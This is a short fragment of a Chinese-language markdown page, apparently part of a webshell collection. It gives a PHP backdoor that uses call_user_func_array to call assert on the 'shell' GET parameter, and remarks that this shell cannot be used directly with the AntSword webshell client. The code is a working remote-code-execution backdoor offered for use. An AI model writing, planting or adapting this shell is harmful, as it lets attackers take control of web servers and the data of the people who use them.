 ![](img/5.png)

---

**call_user_func_array函数 需PHP版本<7.1**
```php
<?php
 
function a(){
     return 'assert';
}
$a=a();
$aa = array($_GET['shell']);
call_user_func_array($a,$a=$aa);
?>
```
* 注意该马无法直接使用蚁剑连接。

![](img/9.png)

---